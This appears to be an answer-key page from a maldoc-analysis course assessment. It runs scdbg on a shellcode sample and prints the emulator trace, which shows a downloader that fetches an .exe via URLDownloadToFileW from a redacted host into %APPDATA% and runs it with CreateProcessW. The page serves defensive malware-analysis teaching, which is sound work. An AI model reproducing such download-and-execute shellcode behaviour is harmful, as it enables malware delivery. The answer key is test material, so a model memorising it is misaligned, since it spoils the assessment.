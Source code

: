 ## Question 3

### "Identify the name of Windows API function that is used to execute the file %APPDATA%\\\\lawserhgj5784.exe in the shellcode."

Students will reuse the output of the `scdbg.exe` shellcode emulator and will scrutinize line `401585` to obtain the Windows API function used to execute the executable file:

Code: cmd

```cmd
scdbg.exe /f C:\Temp\academy_student.sc /foff 6F
```

```
C:\Tools\Maldoc\Office\Tools\scdbg>scdbg.exe /f C:\Temp\academy_student.sc /foff 6F

Loaded 689 bytes from file C:\Temp\academy_student.sc
Initialization Complete..
Max Steps: 2000000
Using base offset: 0x401000
Execution starts at file offset 6f
40106f  E94B010000                      jmp 0x4011bf  vv
401074  8209B3                          or byte [ecx],0xb3
401077  69E54171043F                    imul esp,ebp,0x3f047141
40107d  DB1B                            fistp [ebx]
40107f  3A2B                            cmp ch,[ebx]

40144a  GetProcAddress(ExpandEnvironmentStringsW)
401493  ExpandEnvironmentStringsW(%APPDATA%\lawserhgj5784.exe, dst=12fb84, sz=104)
4014a8  LoadLibraryW(UrlMon)
4014c3  GetProcAddress(URLDownloadToFileW)
401527  URLDownloadToFileW(http://{hidden}/_errorpages/{hidden}.exe, C:\Users\Administrator\AppData\Roaming\lawserhgj5784.exe)
40153f  GetProcAddress(GetStartupInfoW)
401549  GetStartupInfoW(12fda4)
401560  GetProcAddress(CreateProcessW)
401585  {hidden}( , C:\Users\Administrator\AppData\Roaming\lawserhgj5784.exe ) = 0x1269
401599  GetProcAddress(ExitProcess)
40159d  ExitProcess(0)

Stepcount 41813
```

Answer: `CreateProcessW`

# Skills Assessment - Maldoc Analysis

## Question 4
